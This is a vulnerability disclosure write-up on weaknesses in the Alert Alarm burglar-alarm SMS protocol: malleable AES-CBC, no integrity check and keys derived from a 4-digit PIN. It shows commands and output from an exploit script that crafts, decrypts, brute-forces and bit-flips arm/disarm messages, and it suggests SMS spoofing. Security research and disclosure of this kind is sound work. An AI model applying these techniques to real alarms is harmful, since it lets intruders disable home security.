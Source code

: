Alert Alarm SMS exploit
#######################
Author: Joakim Bech <joakim.bech[at]gmail.com>, 2019-06-21

.. contents:: Table of Contents

tl;dr;
******
- `Alert Alarm`_ is a Swedish company selling burglar alarms (with various
  possibilities for extensions) to home owners. On one of their pages [1_],
  they are saying that: "Our burglar alarms for home owners communicate using
  an encrypted channel primarily using GSM and secondarily using SMS".

- It turns out that Alert Alarm have weaknesses in their SMS implementation
  that turns on/off alarms when using the Alert Alarm app (tested on Android).
  The weaknesses can be summaries in:

  - Using AES-CBC which is malleable.
  - No integrity protection of the encrypted message.
  - Heavily reduced key space, from 128-bits to 9999 keys.
  - Doesn't use any device unique values/properties in the data being sent to
    the Alert Alarm server.
  - No key derivation function in use (KDF).
  - No key exchange protocol in use (like Diffie Hellman for example).

- This makes the security of the implementation very fragile, since all it
  takes for a rouge user is to get hold of a **single** SMS generated by the
  Alert Alarm app. When the attacker got that he can easily figure out the code
  used to turn on/off the burglar alarm. Using free services one can send
  `spoofed SMS`_ with manually crafted data and then it's just to enter the
  victims house and no alarm will go off.

- On this page, one can find examples and a script that can decrypt Alert Alarm
  SMS'es and also create valid Alert Alarm SMS'es. It's also capable of finding
  a key using a brute force attack and it's also possible to flip bits to
  change the original intention of the SMS.


Observation
***********
This caught my attention when I noticed that when turning off an active alarm
(``ARMED_HOME``) using the Android app, a SMS is created similar to this.

.. figure:: images/aa_initial_sms.png
        :figclass: align-center


After reverse engineering one can see that the 64 bytes hex string is made up
of two parts. The first part is the IV, which is a random number (coming from
``SHA1PRNG``) and the second part is the actual message.

.. code-block:: none

           32 bytes   32 bytes
        +-----------+----------+
        | IV        | Message  |
        +-----------+----------+

The encryption in use is AES-CBC with a 128-bit key. However, the key used for
encryption are made up of strings like this:

.. code-block:: none

        000000000000xxxx

Where "xxxx" is the pin code. This means the key space is heavily reduced from
128-bits, to only 9999 combinations(!). This is also plain AES-CBC, so no
integrity protection or anything, more about that further down in the examples
about flipping bits (see the section: "Flip a bit in the encrypted message").

Message format
==============
The format of the decrypted message is as follows:

.. code-block:: none

        Bytes:            1   1   1      2       1     2        2        2         2          2   = 16 bytes
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                |SMS Version| i | j | year | month-1 | day | hour | minute | user id | \x00\x00 |
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                                              (hex)

Here ``i`` seems to represent the "`alarm off (0)`" and "`alarm on (1)`" and
``j`` is probably whether it is "`armed home`" or "`armed away`".


Unconfirmed potential issues
****************************
- Is the solution susceptible to replay attacks? Is is possible to send the
  same message more than once?

  - No it's not, sending the same SMS makes the main control unit say
    "Fjärrkontroll, felkod 2". Also by adding for example +1 to minute still
    doesn't work. So, probably Alert Alarm on the server side are checking
    either a hash of all messages coming in and/or simply just check that the
    data in the SMS isn't too old.

- Will the server detect brute force attacks. I.e., can one send 9999 SMS in a
  short amount of time and thereby gain access to someones house?


Open questions
**************
- Why use SMS from the app, when there already must be a data connection with
  the app? This means that it probably works something like this.

  - The SMS is sent to the server.
  - The server decrypts the SMS, checks the parameters, record the action
    and send out a request (using the data connection over GSM) to the home
    owner main unit controlling the alarm.
  - When the alarm has been armed/disarmed, the Android app gets a
    notification of the updated status.

Why on earth use SMS at all? Doesn't all mobile phone / users have a data
connection in 2019?


Script usage
************
Calling with script with no arguments lists all possible parameters. But to
make it easier to follow along, we've put together a couple of examples below.


Generate a SMS from scratch
===========================
This takes a creates a valid SMS string, i.e, a real usable string that can be
sent as an SMS and that will either will either turn on or turn off the alarm.

.. code-block:: bash

        $ ./aaxploit.py -e -p 1234
        [INFO]: Msg:              32303131393630333038343830310000
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              30303030303030303030303031323334 (0000000000001234)

        [INFO]: Mode: encryption
        [INFO]: Crafted SMS:      d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        

.. _decrypt_sms:

Decrypt a SMS from the phone
============================
As an example, take the crafted SMS from the example above (having that said,
copy a SMS string from a phone, generated by the Alert Alarm app works just as
well). In this example we already know the pin code to turn on/off the alarm,
so we provide that as a parameter.

.. code-block:: bash

        $ ./aaxploit.py --input d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b -d -p 1234
        [INFO]: Original SMS:     d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              30303030303030303030303031323334 (0000000000001234)

        [INFO]: Mode: decryption
        [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
        [INFO]:       2   0   1     19     0x6    03     08       48        01


Brute force an encrypted SMS
============================
Here we pretend that we don't know the key (i.e., the pin code to turn on/off
the alarm), but we have gotten hold of the encrypted SMS. By running the brute
force attack we try to find the correct key and pin to turn on/off the alarm.
Due to the nature of how the message is encoded, this always seems to work and
since the key space is very small, it finds the key/pin in less than a second.

.. code-block:: bash

        $ ./aaxploit.py --input d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b -b
        [INFO]: Original SMS:     d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              None (0000000000000000)

        [INFO]: Mode: bruteforce
        [INFO]: (Probably) found the correct ...
        [INFO]:    encryption key: 30303030303030303030303031323334
        [INFO]:    pin:            1234

As we can see, we found the correct key/pin code! Note that the pin code is the
same as used on the real physical burglar alarm at the owner house. I.e., if a
thief breaks in, he can enter this pin code and the alarm never goes off.

.. _flip_bits:

Flip a bit in the encrypted message
===================================
Since AES-CBC is malleable_, we can flip a bit in the IV which will be directly
reflected on the decrypted message. I.e., a man in the middle can use this to
either change a message from "Turn on alarm" to a "Turn off alarm" or vice
versa. Notice that here one doesn't even have to decrypt the message, i.e, by
just taking the original message and flip a bit and use the modified SMS is
enough to turn off (or turn on) the alarm. In the example below we flip the
meaning of the ``i`` bit.

.. code-block:: bash

        $ ./aaxploit.py --input d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b --flip 112 
        [INFO]: Original SMS:     d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              None (0000000000000000)

        [INFO]: Mode: flip bits
        [INFO]: Modified IV:      d245e98aed6f2dfbf991485e5e43cd56
        [INFO]: Modified SMS:     d245e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b


If we take the "Modified SMS" and decrypt it, we can see that the "i" field has
been changed (from "0" to "1", compare with message above, see the section
"Decrypt a SMS from the phone").

.. code-block:: bash

        $ ./aaxploit.py --input d245e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b -d -p 1234
        [INFO]: Original SMS:     d245e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d245e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              30303030303030303030303031323334 (0000000000001234)

        [INFO]: Mode: decryption
        [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
        [INFO]:       2   1   1     19     0x6    03     08       48        01
                          /\
                          |----- changed from 0 to 1

Note that bit-flipping can be done to anything in the data, i.e., it would
probably work to trick the system by taking an old valid SMS created by the
Alert Alarm app and then just flip the date and/or hour bits and resend the
modified SMS.


Summary
*******
The security of the solution relies on

1. the pin code and

2. the SMS senders phone number

3. that no-one is able to get hold of the SMS sent.

In fact, one can argue that **the security only relies on "3"**, since if one
gets hold of "3", then it's trivial to figure out "1", that is basically what
the script ``aaxploit.py`` does. "2" on the other hand is typically available
in phone books etc, i.e., it's usually not hard to figure out the phone numbers
to the owner of a house.

Alert Alarm seems to have tried to "lock" the SMS service to a set of users.
i.e., the first user have to add additional phone numbers before these people
can use the app. So at first glance, one might believe that it's only the
owners of these phone numbers who can send the SMS. But the fact is that there
are many services out there that allow you to send `spoofed SMS`_ so it looks
like they were sent from a certain phone number. I.e., it's totally possible to
craft a SMS using ``aaxploit.py`` and then use one of these services to send a
rouge SMS. I.e., any user can turn of the alarm without the alarm owner knowing
about it.

**Should the owners of this alarm be worried?** Getting an SMS from the home
owner is probably a bit challenging, so it's probably a bit hard to actually do
the attack, at least if Alert Alarm hopefully notices brute force attacks on the
receiving side of the SMS. But, the flaws identified are quite severe, and me and
the other customers of Alert Alarm don't want our burglar alarms to have these
kind of weaknesses. Right now it's more security by obscurity than real
security.

This document and the script has been sent to Alert Alarm 2019-06-xx and after
90 days disclosure time this will be made public.

.. _1: https://www.alertalarm.se/hemlarm/garanti-och-funktion.html#1
.. _Alert Alarm: https://www.alertalarm.se
.. _malleable: https://en.wikipedia.org/wiki/Malleability_(cryptography)
.. _spoofed sms: https://www.google.com/search?q=send+spoofed+sms&oq=send+spoofed+sms

